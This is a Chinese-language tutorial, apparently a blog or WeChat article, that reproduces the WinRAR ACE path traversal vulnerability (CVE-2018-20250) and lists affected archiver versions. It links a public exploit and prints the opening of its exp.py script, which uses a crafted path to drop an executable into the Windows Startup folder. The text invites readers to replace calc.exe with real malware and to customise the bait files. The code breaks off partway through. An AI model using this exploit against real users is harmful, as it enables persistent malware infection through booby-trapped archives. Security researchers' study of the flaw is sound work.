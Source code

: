 ![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROLqpDCG8icFaWSTjKB8kIDbtp1vguR4aU73L9FJMURAEicCXRQp4FrJfWxu1xJW2M9wyu89oS3GU8g/640?wx_fmt=png&from=appmsg "")  
  
下面我们先来复现该漏洞。该漏洞会对多种压缩软件造成影响，版本如下：  
- WinRAR < 5.70 Beta 1  
  
- Bandizip < = 6.2.0.0  
  
- 好压(2345压缩) < = 5.9.8.10907  
  
- 360压缩 < = 4.0.0.1170  
  
第一步，安装WinRAR 5.6.1的版本，后续5.7升级弥补了该漏洞。作者的电脑是Win10操作系统。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/0RFmxdZEDROLqpDCG8icFaWSTjKB8kIDbvjIsN2RaqDruey5bEygWatjbpbgPf6E2V84EQY0hCs8232qv56CEzQ/640?wx_fmt=jpeg&from=appmsg "")  
  
安装之后可以看到本地存在的UNACEV2.DLL动态链接库，它就是被利用的入口。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROLqpDCG8icFaWSTjKB8kIDbcUACTPTwrfmCoibwM8xpIyicBQ2YHXKc0hjIgGmrARwK8e7XDAAS6leA/640?wx_fmt=png&from=appmsg "")  
  
第二步，从github中下载漏洞利用程序，如下图所示。  
- hello.txt和world.txt是需要压缩的文件  
  
- calc.exe是计算器，可以替换成恶意软件，它会被定向植入系统启动目录  
  
- exp.py是运行的Python代码，它会将hello.txt和world.txt压缩，并隐藏恶意软件  
  
- acefile.py是利用UNACEV2.DLL漏洞的代码，共4000多行下载地址：  
https://github.com/backlion/CVE-2018-20250  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROLqpDCG8icFaWSTjKB8kIDb3iaGWyo9TnkEks4GEDMicVxjW4Jp8DAWESqNuETtjQMK8YlAdVVOz5kw/640?wx_fmt=png&from=appmsg "")  
  
我们尝试打开exp.py文件，代码如下，其中恶意软件为“calc.exe”、压缩包名称为“test.rar”、需要压缩的文件为“hello.txt”和“world.txt”、隐藏的路径为Windows系统开机启动的目录，并命名为“hi.exe”。读者也可以尝试修改名称，自定义需要压缩的文件及恶意软件。  
```
#!/usr/bin/env python3

import os
import re
import zlib
import binascii

# The archive filename you want
rar_filename = "test.rar"
# The evil file you want to run
evil_filename = "calc.exe"
# The decompression path you want, such shown below
target_filename = r"C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\hi.exe"
# Other files to be displayed when the victim opens the winrar
# filename_list=[]
filename_list = ["hello.txt", "world.txt"]

class AceCRC32:
    def __init__(self, buf=b''):
        self.__state = 0
        if len(buf) > 0:
            self += buf

    def __iadd__(self, buf):
        self.__state = zlib.crc32(buf, self.__state)
        return self

    def __eq__(self, other):
        return self.sum == other

    def __format__(self, format_spec):
        return self.sum.__format__(format_spec)

    def __str__(self):
```